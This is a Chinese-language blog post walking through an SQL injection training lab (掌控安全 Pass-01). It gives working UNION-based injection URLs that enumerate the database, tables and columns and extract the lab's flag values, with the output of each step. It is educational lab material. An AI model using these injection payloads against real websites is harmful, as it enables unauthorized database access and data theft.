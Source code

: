 ```yaml
---
layout: post
title: template page
categories: [cate1, cate2]
description: some word here
keywords: keyword1, keyword2
---
```


# 掌控安全 SQL 注入靶场练习 Pass1 - 报错注入

靶场地址:  http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1

> **注意**: 错误注入 不一定是会返回错误信息。 也指不正常显示结果， 例如此题的查询为空。

## 0x01 准备工具


辅助工具 `google extension` : hackbar

1. 帮助快速构造语句
2. 显示原始字符，免去 urlcode 烦恼


## 0x02 开始

```sql
-- 1. 查询数据库名
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,2, database()
-- error


-- 2. 查询所以表名
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
-- error_flag, user


-- 3. 查询当前库所有列名
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='error_flag'
-- id, flag

-- 4.0 查询 flag 数量
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,2,count(*) from error_flag
-- 4


-- 4.1 查询 flag
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,id,flag from error_flag
-- zKaQ-Nf

-- 4.2 查询所有flag
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,2,group_concat(flag) from error_flag
-- zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K

```
